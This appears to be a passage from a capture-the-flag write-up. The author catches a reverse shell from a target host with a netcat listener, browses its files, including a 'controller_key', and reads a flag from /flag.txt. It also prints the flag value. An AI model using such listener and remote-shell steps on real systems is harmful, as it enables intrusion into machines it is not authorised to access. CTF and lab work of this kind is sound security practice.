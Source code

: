 I'm on the server.

```bash
root@shell01:~/eric# nc -6 -knvlp 5555
Listening on :: 5555

Connection received on 9000:fc4c:d8a7:bb91:216:3eff:feda:bb34 52976
service@controller:~$

service@controller:~$ ls
ls
app.py
bin
controller_key
lib
pyvenv.cfg
static

service@controller:~$ ls /
ls /
bin
bin.usr-is-merged
boot
dev
etc
flag.txt
home
lib
lib64
lib.usr-is-merged
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
srv
sys
tmp
usr
var

service@controller:~$ cat /flag.txt
cat /flag.txt
FLAG-bf8e957ac369a3b2bb41b9cdcfc36133 (1/3)
```

That was fun. The connection is unstable. But I dumped the application on that server to see what it looks like. The `do_ssh` function is the interesting part. It builds an SSH configuration file as I expected.
